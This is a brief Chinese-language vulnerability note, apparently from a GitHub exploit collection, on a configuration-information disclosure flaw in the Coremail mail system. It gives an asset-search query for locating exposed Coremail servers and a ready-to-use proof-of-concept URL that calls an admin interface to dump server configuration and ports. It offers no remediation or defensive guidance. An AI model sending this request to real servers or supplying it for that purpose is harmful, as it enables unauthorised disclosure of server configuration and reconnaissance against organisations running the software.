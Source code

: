 # Coremail 配置信息泄露漏洞

# Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## 网络测绘

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](/images/202202101913188.png)



